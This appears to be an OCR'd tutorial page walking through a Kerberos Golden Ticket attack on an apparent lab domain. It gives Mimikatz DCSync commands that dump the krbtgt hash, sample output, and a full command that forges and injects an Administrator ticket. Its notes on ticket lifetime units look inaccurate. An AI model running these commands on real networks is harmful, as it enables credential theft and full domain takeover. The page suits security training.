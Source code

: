 ```
#### **Steps to Perform the Golden Ticket Attack**

**Step 1: Obtain the krbtgt Hash and SID**

The first step is to obtain the **krbtgt** password hash and the **domain SID**. This can be achieved using tools like **Mimikatz** and **DCSync**.

* Use **DCSync** to dump the **krbtgt** hash and domain SID:

```powershell
mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
```

**Mimikatz Output Example:**

```plaintext
SAM Username: krbtgt
Hash NTLM: db0d0630064747072a7da3f7c3b4069e
SID: S-1-5-21-1518138621-4282902758-752445584
```

The **krbtgt hash** (in this example: `db0d0630064747072a7da3f7c3b4069e`) is required for the Golden Ticket, as is the **domain SID** (`S-1-5-21-1518138621-4282902758-752445584`).

**Step 2: Generate the Golden Ticket**

Once the **krbtgt hash** and **domain SID** are obtained, the attacker can use **Mimikatz** to create a forged Kerberos Ticket Granting Ticket (TGT). The **kerberos::golden** command is used to generate the ticket.

Example command:

```powershell
mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
```

Where:

* `/domain`: Specifies the domain name (e.g., `eagle.local`).
* `/sid`: Specifies the domain SID obtained from the previous step.
* `/rc4`: The NTLM hash of the **krbtgt** account.
* `/user`: The username for which the Golden Ticket is being created (e.g., `Administrator`).
* `/id`: The **Relative ID (RID)** of the user (e.g., `500` for **Administrator**).
* `/renewmax`: The maximum number of days the ticket can be renewed (e.g., `7`).
* `/endin`: The expiration date/time for the ticket (e.g., `8` for 8 days).
* `/ptt`: Places the forged ticket into the current ticket cache (useful for immediate use).

**Step 3: Verify the Golden Ticket**

Once the ticket is created, it can be verified using the **klist** command to see if the Golden Ticket has been properly added to the Kerberos ticket cache:

```powershell
C:\Mimikatz> klist
```

If the Golden Ticket was successfully created, you should see the forged TGT listed in the output.
